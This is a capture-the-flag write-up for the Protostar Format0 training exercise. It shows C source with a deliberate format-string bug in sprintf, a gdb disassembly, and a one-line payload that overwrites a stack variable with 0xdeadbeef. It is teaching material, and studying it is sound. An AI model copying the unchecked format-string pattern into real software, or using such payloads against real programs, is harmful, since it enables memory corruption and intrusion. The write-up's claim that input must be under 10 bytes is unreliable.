 # PROTOSTAR : FORMAT 0
[Protostar:Format0](https://exploit.education/protostar/format-zero/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings 

The above code is vulnerable to format strings vulnerability.
The **sprintf** is vulnerable to format strings because it is not checking the format specifier of the input. Format Strings can cause memory leak or memory write.

### **SOLUTION**

Below is the disassembly of the **vuln()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format0
Reading symbols from /opt/protostar/bin/format0...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave  
0x0804842a <vuln+54>:   ret    
End of assembler dump.
```

The input has to be less than 10 bytes and the string **deadbeef** already takes 4 bytes. So lets write a python script to solve this challenge.

```
user@protostar:/opt/protostar/bin$ ./format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

Since there are no format arguments but format specifier **%64d** is provided so it will execute 64 spaces to fill the **buffer** variable then append the **deadbeef** string.